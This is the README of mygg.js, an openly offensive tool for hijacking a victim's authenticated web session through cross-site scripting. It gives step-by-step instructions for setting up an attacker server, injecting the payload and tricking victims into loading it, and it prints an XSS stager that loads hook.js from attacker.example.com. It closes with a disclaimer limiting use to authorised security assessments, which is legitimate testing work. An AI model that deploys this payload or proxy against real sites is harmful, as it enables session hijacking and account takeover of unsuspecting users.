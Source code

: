 # mygg.js

mygg.js (Norwegian for mosquito) is a tool designed to hijack a victim's session by proxying web traffic through cross-site scripting. It allows an attacker to browse as though they were authenticated by the victim's browser. This is useful when you can't steal session cookies directly, but can still perform actions within the victim's session. By leveraging session riding, authentication tokens are automatically appended to each request, effectively acting as a man-in-the-middle. Inspired by tools like Mosquito, MalaRIA, and BeEF, mygg.js simplifies the process of session hijacking through XSS vulnerabilities.

<img src="https://github.com/dsolstad/mygg.js/blob/master/diagram.png" alt="drawing" width="698" height="320"/>

### How it works

1. **Set up the Server**: Ensure you have a server with a domain name pointing to it. This server will host the mygg.js application.
2. **Clone the Project**: Clone the mygg.js repository on your server. (Refer to the [Installation](#installation) section)
3. **Follow Installation Process**: Follow the steps in the [Installation](#installation) section to build and run the Docker container.
4. **Configure the Attacker's Browser**: Open a browser and set the proxy to `http://attacker.example.com:8081`.
5. **Generate Payloads**: Run the mygg.js application, which will print various payloads in the console. These payloads can be used for different XSS vectors.
6. **Inject Payload**: Inject one of the payloads into the XSS injection point on the target website and trick the victim into loading it.
7. **Victim Gets Hooked**: Once the victim loads the payload, their browser will be hooked and load the hook.js script.
8. **Monitor and Interact**: The attacker must browse to the target website through the proxy. Once the victim is hooked, the attacker can interact with the target website as though they are authenticated as the victim.

## Prerequisites

- Attacker server with Docker installed
- A domain that points to the attacker server
- The attacker's browser configured to use the proxy at `http://attacker.example.com:8081`

## Limitations
- **Same-Origin Policy:** `mygg.js` is primarily restricted to the domain where the hook was loaded. This means that you can only browse and interact with the site where the XSS payload was injected.
- **CORS Misconfigurations:** Some sites may have misconfigured Cross-Origin Resource Sharing (CORS) headers, like an open `access-control-allow-origin` header. These misconfigurations can allow cross-origin requests, potentially expanding what `mygg.js` can access.

## Installation

### 1. **Clone the Project:**

```bash
git clone https://github.com/root4loot/mygg.js.git
cd mygg.js
```

### 2. Run the Container:
```
docker build -t mygg .
docker run -d --name mygg -p 8443:8443 -e DOMAIN=attacker.example.com mygg
```
Replace **attacker.example.com** with your actual domain name.

## Configuration

The Docker container will automatically generate a Let's Encrypt certificate for the specified domain and renew it as needed. No manual certificate management is required.

## Payload Stager
When mygg.js is started, it will output various XSS payloads you may inject. Example payload:

```html
<script>
  var x=document.createElement('script');
  x.src='//attacker.example.com:8443/hook.js';
  document.head.appendChild(x);
</script>
```

## Ports

- **Port 8443** - Used for serving the hook, polling, and receiving responses over HTTPS.
- **Port 8081** - The proxy where you should configure your attacking web browser to proxy through, to forward communication to the hooked browser.


## Notes

- When configuring attacker browser to use the proxy on port 8081, make sure to use `http://` instead of `https://`.
- If the browser forces HTTPS, then make sure to clear the HSTS cache first.


# TODOs
- Consider implementing the use of WebSockets instead of HTTP polling.
- Consider implementing HTTPS interception instead of HTTPS downgrading.

# FAQ
**Q:** Why not use the other tools instead?  
**A:** Mosquito and MalaRIA are old and do not support HTTPS. BeEF is barely maintained and its XSS proxy is full of bugs.

# Disclaimer 
This software is only meant to be used for the purposes of creating proof-of-concepts during security assessments, to better demonstrate the risks of Cross-site Scripting, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
  
This software is a personal project and not related with any companies, including Project owner and contributors employers.

# LICENSE
See [LICENSE](LICENSE)